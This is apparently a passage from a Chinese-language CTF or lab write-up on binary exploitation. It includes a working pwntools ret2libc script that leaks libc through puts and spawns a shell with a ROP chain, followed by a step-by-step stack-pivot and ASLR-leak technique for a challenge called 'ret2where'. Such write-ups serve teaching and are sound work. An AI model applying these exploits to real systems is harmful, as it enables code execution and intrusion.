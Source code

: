 ```python
e = ELF('./02_ret2libc64')
puts_plt = e.symbols['puts']
puts_got = e.got['puts']
hear_addr = e.symbols['hear']
rdi_gadget = 0x401343

payload = b'0'*40 + p64(rdi_gadget) + p64(puts_got) + p64(puts_plt)+ p64(hear_addr)

conn.sendline(payload)
conn.recvuntil("way!\n")

storeRecv = conn.recvline()
puts_addr = u64(storeRecv[:-1]  + b'\x00\x00')

lib_base = puts_addr - 0x875a0

ret_gadget = 0x40101a
binsh = 0x1b75aa + lib_base
system_addr = 0x55410 + lib_base
payload = b'0'*40 + p64(ret_gadget) + p64(rdi_gadget) + p64(binsh)  + p64(system_addr) 
conn.sendline(payload) 

conn.sendline('./flag.exe 3190105871')
conn.interactive()
```


### 03 ret2where
如同第 2 题那样检查信息，唯一不同的是 gadget 的地址：
![image.png](./assets/1649337652426-4862a4f8-fc86-4f10-bba5-7293e53096e2.png)
![image.png](./assets/1649337687197-e609c6c7-81dc-4a21-9a4f-7d5da5c17e0c.png)
分析代码可知，调用 `_coda()` 时的栈如下：
![image.png](./assets/1649306361532-04263a1f-d4d3-4fc9-8577-5b3cf68d0602.png)
其中，`read()`的长度限制使得我们可以写入白色部分的栈区域，但是灰色部分是代码限制我们没有办法写入的。根据第 2 题的思路和过程，我们需要 32 字节的空间，因此我们可以考虑在 `_coda()`中通过修改 saved rbp，在 `leave` 时 `rbp`的值会改为 saved rbp 的值；然后从 `coda()`中 `leave` 时 `rsp`的值会改为 `rbp` 的值，即之前`_coda()`中 saved rbp 的值。使其指向 `name[]`，从而访问 `name[]`中我们的代码。

> `leave`是 `mov rsp, rbp` `pop rbp`
> `ret`是 `pop pc`


在此前我们还需要考虑如何解决 ASLR。根据同学的提示，`welcome()`函数的`printf()`以`%s`输出，如果缓冲区全部为非`'\0'`字符则会继续输出后面的内容；观察上面栈结构可知输出的内容恰好是 `welcome()` 函数的 saved rbp；因此我们在某次运行中记录所有所需地址与当次该处 saved rbp 的偏移，就可以获知所有的地址的实际值。当然，有一定概率在 saved rbp 内部有全 0 字节，因此有一定可能会失败；观察提示即可判定失败是否与此有关。

但是，如果我们尝试以上述方式将 `welcome()` 中的 `name[]` 全部赋值为非 0 字符，我们将很难在其中插入有效的 gadget 等地址。因此我们需要考虑方式重新回到 `welcome()`函数进行输入。我们考虑函数的调用和返回过程：
![image.png](./assets/1649309581026-e24a5183-fb29-4fcb-949e-9c747f8fd97e.png)

1. 调用过程略。其中，在运行到 `welcome()` 时输入全部为非`'\0'`的字符，从而计算各个所需内容的地址。
2. 从 `_coda()` 中 `leave`时，`rsp`一定会更改为当前 `rbp`的值，即指向 `_coda()`的 saved rbp，这是无法调整的；`rsp = &c2`
3. 但是 saved rbp 本身可以调整，这样我们就可以改变这次之后 `rbp` 的值，从而在后面影响 `rsp` 的值；`rbp = c2, rsp = &c3`
4. 从 `_coda()` 中 `ret` 时，`pc`会改为这里 ret addr 的值，这个值是可以修改的；`rsp = &..., pc = c3`
5. 如果 return 到 `coda()`，那么下面进行的就是 `leave`，即将 `rsp` 的值更改为 `rbp` 的值，亦即之前 saved rbp 的值；`rsp = c2`
6. 然后发生一次出栈，`rbp` 的值会被改为此时栈顶的值，而此时的栈的位置是我们可以控制的；`rbp = *c2, rsp = c2 - 1`
7. 然后进行的就是 `ret`，这时候程序取当前栈顶的地址跳转过去；`pc = *(c2 - 1)`
8. 至此，我们可以掌控 `rbp`, `rsp` 和 `pc`。我们希望能在上述 5~7 步将控制流转到 `welcome()` 或者 `_coda()` 以便再一次用 `read()` 输入我们的 ROPChain。考虑到 `_coda()` 在 `read()` 后会直接 `leave` ，因此我们能够使用的空间其实只有 16 字节，这是不够的；而 `welcome()`会调用 `coda()`进而调用 `_coda()`，这给我们了一定的操作空间。
9. 我们试图将控制流转到 `welcome()`。首先我们可以将 ret addr 改为 `<welcome + 5>`，即跳过了 `push rbp`。这样做的原因是为了满足栈的对齐要求，否则后续运行会出现段错误。如果我们要覆盖 ret addr，那么也势必需要给 saved rbp 赋一个值，这个值其实区别并不大，只是影响 `name[]`后续被放在什么地方，进一步影响我们注入的其他地址。我们这里让 saved rbp 为 `str[16]`的地址。